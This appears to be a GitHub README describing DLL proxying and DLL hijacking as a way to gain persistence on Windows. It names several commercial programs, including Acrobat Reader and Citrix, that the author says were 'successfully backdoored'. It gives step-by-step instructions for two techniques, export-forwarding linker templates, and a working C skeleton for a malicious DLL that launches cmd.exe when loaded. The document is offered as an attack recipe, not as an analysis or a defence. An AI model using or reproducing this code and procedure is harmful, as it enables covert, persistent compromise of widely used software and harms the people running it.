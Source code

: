 # DLL Proxying
DLL Proxying techniques, and more

## List of successfully backdoored programs (so far) :

Program Name | DLL
-------------| ----
Lightshot | DXGIODScreenshot.dll
Acrobat Reader | BIB.dll
Hamachi Service | LMIGuardianDll.dll
ManyCam | P7x32.dll
Citrix | ctxmui.dll

## DLL Proxying & Persistence concept :
The goal is to use programs that automatically run on startup.

There are two techniques, generally if the first one fails you will want to try the other one.

The two common steps for both techniques are :
1. Find the program that fits your needs for persistence
2. List DLLs used by this program (with Procmon)

### **Technique 1**

Technique 1 is based on the idea that the DLL exists, and is loaded by the program. 

In Procmon, you can check this with the **Result** column being set to **SUCCESS**.

3. Once you picked your working DLL, use a tool such as DLLExportViewer to export the legit DLL's functions 

(or use my script to automate this step and step 4)

4. Generate the pragma comment linkers for you to implement into your malicious DLL
It should look like :

```C
#pragma comment(linker,"/export:FUNCTION_NAME=DLLFileName_orig.FUNCTION_NAME,@ORDINAL")
```

5. Create your DLL with the code that you want to execute, here's an example :

```C
#pragma once

// Add the generated comments here
// # pragma comment(linker,"/export:FUNCTION_NAME=DLLFileName_orig.FUNCTION_NAME,@ORDINAL")
// .....
#include <windows.h>

DWORD WINAPI payload() {
	STARTUPINFOA info = { 0 };

	PROCESS_INFORMATION processInfo = { 0 };

	LPSTR arguments = (char*)" /c notepad"; // This is not necessary. It's just an argument example for you to use with your own commands

	if (CreateProcessA("C:\\Windows\\System32\\cmd.exe", arguments, NULL, NULL, TRUE, 0, NULL, NULL, &info, &processInfo)) {
		WaitForSingleObject(processInfo.hProcess, INFINITE);
		CloseHandle(processInfo.hProcess);
		CloseHandle(processInfo.hThread);
	}
	return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		payload();
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

6. Name your DLL with the original legitimate DLL name (without the \_orig), and place it in the same folder.
7. Start the program and see if it worked.

### **Technique 2**

Technique 2 is based on the idea that the DLL doesn't exist where the program calls it. 

In Procmon, you can check this with the **Result** column being set to **NAME NOT FOUND**.

Using Procmon, you should also check if the **Path** column matches with the location of the installation folder of the program

3. Look for the DLL inside the System32 folder
4. Generate the pragma comment linkers from that DLL, but this time for the function name, specify entire path like such :

```C
#pragma comment(linker,"/export:FUNCTION_NAME=C:\\Windows\\System32\\FILENAME.dll.FUNCTION_NAME,@ORDINAL")
```
In my script you can use the `--system32` option to do it automatically.

6. Add the generated comments to your malicious DLL and build it
7. Place the DLL inside within the folder specified by the "*Path*" column on Procmon (where the DLL wasn't found)
8. Be sure names match (case sensitive)
9. Start the program and see if it worked

## Consequences

Now everytime the program is going to run, assuming you have chosen a correct DLL and that your own DLL is working, it is going to call your malicious DLL, and will continue to owrk since your DLL exports all the same functions that the legit DLL exports.

Since it is a program that is ran on startup, your DLL will be called on startup and persistence is achieved.


### Troubleshoot
There are two main problems that can occur with this technique:
1. The program didn't start properly or crashed
2. The program started but nothing happened

For both case, it means that you picked the wrong DLL, and that you have to try with another one.
